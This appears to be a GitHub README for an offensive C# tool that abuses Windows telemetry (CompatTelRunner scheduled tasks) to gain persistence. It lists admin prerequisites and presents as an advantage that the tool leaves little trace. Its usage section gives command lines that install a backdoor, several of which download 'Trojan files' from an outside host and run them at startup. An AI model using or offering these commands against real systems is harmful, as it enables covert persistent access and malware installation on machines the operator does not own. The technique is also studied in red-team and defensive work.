 # TELEMETRY


### Background

[TELEMETRY](#TELEMETRY-1) is a C# For Windows PERSISTENCE

Today we’re going to talk about a persistence method that takes advantage of some of the wonderful telemetry that Microsoft has included in Windows versions for the last decade. 

- **Local admin rights to install (requires the ability to write to HKLM)**
- **Have CompatTelRunner.exe**
- **2008R2/Windows 7 through 2019/Windows 10**

### Advantage

- **Using the system's own Telemetry planned tasks**
- **Only registry suspicious backdoor troubleshooting**

### Command Line Usage

        ABUSING WINDOWS TELEMETRY FOR PERSISTENCE
                                                 .Imanfeng
        Features:
            Install:   -   Deployment authority maintains backdoor
    
        Command:
            TELEMETRY.exe install /command:calc
            -   Execute command without file backdoor
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe /path:C:\Windows\Temp\check.exe
            -   Remotely download Trojan files to the specified directory for backdoor startup
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe
            -   Remotely download Trojan files to C:\\Windows\\Temp\\compattelrun.exe for backdoor startup
    
            TELEMETRY.exe install /path:C:\Windows\Temp\check.exe
            -   Set path Trojan files for backdoor startup
    
        Parameter:
            /command: -   Execute Command
            /url:     -   Download FROM
            /path:    -   Download To

- Execute command without file backdoor

  ```
  Telemetry.exe install /command:calc
  ```

  ![1](PIC/2.png)

  

- Remotely download Trojan files for backdoor startup

  ```
  Telemetry.exe install /url:http://vps:8089/System.exe
  ```

  ![2](PIC/1.png)

  

### Learn

https://www.trustedsec.com/blog/abusing-windows-telemetry-for-persistence/
